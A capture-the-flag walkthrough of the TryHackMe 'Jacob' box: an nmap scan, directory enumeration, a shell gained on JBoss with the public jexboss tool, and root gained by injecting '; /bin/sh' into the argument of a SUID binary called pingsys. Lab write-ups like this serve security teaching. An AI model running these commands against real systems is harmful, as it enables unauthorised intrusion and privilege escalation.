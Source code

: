 In this walkthrough, we'll go over a challenge (intermediate) level box called ***Jacob*** on [TryHackMe](https://tryhackme.com/room/jacobtheboss) 

![Jacob](jacob.png)

Let's start the scanning process with nmap. The IP address would be different when you deploy it:
```bash
nmap -sTV -n -sC -T4 -p- 10.10.99.57 --open
```
We see that a bunch of ports are open:
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-22 19:44 EDT
Nmap scan report for jacobtheboss.box (10.10.99.57)
Host is up (0.21s latency).
Not shown: 65515 closed ports
PORT      STATE SERVICE      VERSION
22/tcp    open  ssh          OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:ca:13:6e:d9:63:c0:5f:4a:23:a5:a5:a5:10:3c:7f (RSA)
|   256 a4:6e:d2:5d:0d:36:2e:73:2f:1d:52:9c:e5:8a:7b:04 (ECDSA)
|_  256 6f:54:a6:5e:ba:5b:ad:cc:87:ee:d3:a8:d5:e0:aa:2a (ED25519)
80/tcp    open  http         Apache httpd 2.4.6 ((CentOS) PHP/7.3.20)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/7.3.20
|_http-title: My first blog
111/tcp   open  rpcbind      2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
1090/tcp  open  java-rmi     Java RMI
|_rmi-dumpregistry: ERROR: Script execution failed (use -d to debug)
1098/tcp  open  java-rmi     Java RMI
1099/tcp  open  java-object  Java Object Serialization
| fingerprint-strings: 
|   NULL: 
|     java.rmi.MarshalledObject|
|     hash[
|     locBytest
|     objBytesq
|     http://jacobtheboss.box:8083/q
|     org.jnp.server.NamingServer_Stub
|     java.rmi.server.RemoteStub
|     java.rmi.server.RemoteObject
|     xpw;
|     UnicastRef2
|_    jacobtheboss.box
3306/tcp  open  mysql        MariaDB (unauthorized)
3873/tcp  open  java-object  Java Object Serialization
4444/tcp  open  java-rmi     Java RMI
4445/tcp  open  java-object  Java Object Serialization
4446/tcp  open  java-object  Java Object Serialization
4457/tcp  open  tandem-print Sharp printer tandem printing
4712/tcp  open  msdtc        Microsoft Distributed Transaction Coordinator (error)
4713/tcp  open  pulseaudio?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NULL, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns: 
|_    8695
8009/tcp  open  ajp13        Apache Jserv (Protocol v1.3)
| ajp-methods: 
|   Supported methods: GET HEAD POST PUT DELETE TRACE OPTIONS
|   Potentially risky methods: PUT DELETE TRACE
|_  See https://nmap.org/nsedoc/scripts/ajp-methods.html
8080/tcp  open  http         Apache Tomcat/Coyote JSP engine 1.1
| http-methods: 
|_  Potentially risky methods: PUT DELETE TRACE
|_http-server-header: Apache-Coyote/1.1
|_http-title: Welcome to JBoss&trade;
8083/tcp  open  http         JBoss service httpd
|_http-title: Site doesn't have a title (text/html).
29981/tcp open  unknown
34453/tcp open  unknown
34759/tcp open  java-rmi     Java RMI
5 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port1099-TCP:V=7.91%I=7%D=6/22%Time=60D280B9%P=x86_64-pc-linux-gnu%r(NU
SF:LL,16F,"\xac\xed\0\x05sr\0\x19java\.rmi\.MarshalledObject\|\xbd\x1e\x97
SF:\xedc\xfc>\x02\0\x03I\0\x04hash\[\0\x08locBytest\0\x02\[B\[\0\x08objByt
SF:esq\0~\0\x01xp\x8d\xf3\r\xfaur\0\x02\[B\xac\xf3\x17\xf8\x06\x08T\xe0\x0
SF:2\0\0xp\0\0\0\.\xac\xed\0\x05t\0\x1dhttp://jacobtheboss\.box:8083/q\0~\
SF:0\0q\0~\0\0uq\0~\0\x03\0\0\0\xc7\xac\xed\0\x05sr\0\x20org\.jnp\.server\
SF:.NamingServer_Stub\0\0\0\0\0\0\0\x02\x02\0\0xr\0\x1ajava\.rmi\.server\.
SF:RemoteStub\xe9\xfe\xdc\xc9\x8b\xe1e\x1a\x02\0\0xr\0\x1cjava\.rmi\.serve
SF:r\.RemoteObject\xd3a\xb4\x91\x0ca3\x1e\x03\0\0xpw;\0\x0bUnicastRef2\0\0
SF:\x10jacobtheboss\.box\0\0\x04J\0\0\0\0\0\0\0\0\xe6jxK\0\0\x01z6\x1b\x12
SF:\x0c\x80\0\0x");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port3873-TCP:V=7.91%I=7%D=6/22%Time=60D280BF%P=x86_64-pc-linux-gnu%r(NU
SF:LL,4,"\xac\xed\0\x05");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port4445-TCP:V=7.91%I=7%D=6/22%Time=60D280BF%P=x86_64-pc-linux-gnu%r(NU
SF:LL,4,"\xac\xed\0\x05");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port4446-TCP:V=7.91%I=7%D=6/22%Time=60D280BF%P=x86_64-pc-linux-gnu%r(NU
SF:LL,4,"\xac\xed\0\x05");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port4713-TCP:V=7.91%I=7%D=6/22%Time=60D280BF%P=x86_64-pc-linux-gnu%r(NU
SF:LL,5,"8695\n")%r(GenericLines,5,"8695\n")%r(GetRequest,5,"8695\n")%r(HT
SF:TPOptions,5,"8695\n")%r(RTSPRequest,5,"8695\n")%r(RPCCheck,5,"8695\n")%
SF:r(DNSVersionBindReqTCP,5,"8695\n")%r(DNSStatusRequestTCP,5,"8695\n")%r(
SF:Help,5,"8695\n")%r(SSLSessionReq,5,"8695\n")%r(TerminalServerCookie,5,"
SF:8695\n")%r(TLSSessionReq,5,"8695\n")%r(Kerberos,5,"8695\n")%r(SMBProgNe
SF:g,5,"8695\n")%r(X11Probe,5,"8695\n")%r(FourOhFourRequest,5,"8695\n")%r(
SF:LPDString,5,"8695\n")%r(LDAPSearchReq,5,"8695\n")%r(LDAPBindReq,5,"8695
SF:\n")%r(SIPOptions,5,"8695\n")%r(LANDesk-RC,5,"8695\n")%r(TerminalServer
SF:,5,"8695\n")%r(NCP,5,"8695\n")%r(NotesRPC,5,"8695\n")%r(JavaRMI,5,"8695
SF:\n")%r(WMSRequest,5,"8695\n")%r(oracle-tns,5,"8695\n")%r(ms-sql-s,5,"86
SF:95\n")%r(afp,5,"8695\n")%r(giop,5,"8695\n");
Service Info: OS: Windows; Device: printer; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2947.54 seconds
```

![Jacob 80](jacob-index-html-80.png)
![Jacob 8080](jacob-index-html-8080.png)

If we run dirsearch on port 8080, we can see that there is a directory called "web-console" `dirsearch -u http://jacobtheboss.box:8080 -r -f -t 50 -x 302,400,403,500,503 -w /usr/share/wordlists/dirb/big.txt`
![Jacob dirsearch](jacob-dirsearch-8080.png)

After looking at the results, we can visit http://jacobtheboss.box:8080/web-console/ and find the version of JBoss:
![Jacob jboss webconsole](jacob-jboss-webconsole.png)
![Jacob jboss version](jacob-jboss-version.png)

There is an exploit for [JBoss version 5.0 on GitHub](https://github.com/joaomatosf/jexboss)
After running the exploit as follows `python jexboss.py -u http://jacobtheboss.box:8080` we are able to get a shell back:
![Jacob jboss exploit](jacob-jboss-exploit.png)
![Jacob foothold](jacob-initial-foothold.png)

If we run linpeas and we can find the below two important findings:
1. Binary Process Permissions:

![Jacob linpeas](jacob-linpeas-binary-processes.png)

2. MySQL root login with no password:

![Jacob mysql](jacob-linpeas-mysql-root-login.png)

3. SUID:

![Jacob SUID](jacob-linpeas-SUID.png)

Unfortunately, the first two won't lead mus to anywhere and we can inspect the pingsys binary, and strings command reveals that it was setting "UID":

![Jacob strings](jacob-strings-pingsys.png)

Finally, we then run the following command to escalate privileges `/usr/bin/pingsys '127.0.0.1; /bin/sh'` and we are able to get a root shell:

![Jacob root](jacobroot.png)

I hope you enjoyed this walkthrough.

[<= Go Back to TryHackMe Walkthroughs](TryHackMeWalkthroughs.md)

[<= Go Back to Main Menu](index.md)
